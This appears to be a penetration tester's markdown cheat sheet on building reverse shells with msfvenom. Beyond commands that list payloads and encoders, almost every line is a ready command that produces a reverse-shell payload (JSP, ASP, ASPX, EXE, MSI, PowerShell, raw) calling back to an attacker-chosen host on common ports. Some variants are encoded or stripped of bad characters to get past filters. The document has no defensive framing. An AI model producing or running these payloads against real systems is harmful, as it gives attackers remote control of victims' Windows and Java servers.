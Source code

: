 # reverse shells

## tipps

- Specify architecture for windows reverse shells!
- Check windows version if its new its probably x64
- use commen ports such as 80, 443, 53

## general

### list payloads

```bash
msfvenom -l payloads
```

### list encoders

```bash
msfvenom -l encoders
```

## java

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST="$LHOST" LPORT=443 -f raw > shell.jsp
```

## windows

### generate asp reverse shell

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<lhost> LPORT=5555 -f asp > shell.asp
```

### generate exe reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o reverse.exe
```

### generate msi reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -f msi -o reverse.msi
```

### generate windows rev shell without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> LPORT=5555 -b "\x00\xotherchars" -f rb
```

### generate aspx reverse shell

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<lhost> LPORT=80 -f aspx > reverse.aspx
```

### powershell reverse shell

```bash
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<lhost> LPORT=5555 -f exe -o rev.exe
```

### raw reverse with encoder

```bash
msfvenom -p windows/shell_reverse_tcp -e cmd/powershell_base64 -b '\x0a\xotherbadchars' LHOST=<lhost> LPORT=5555 > shell.raw
```
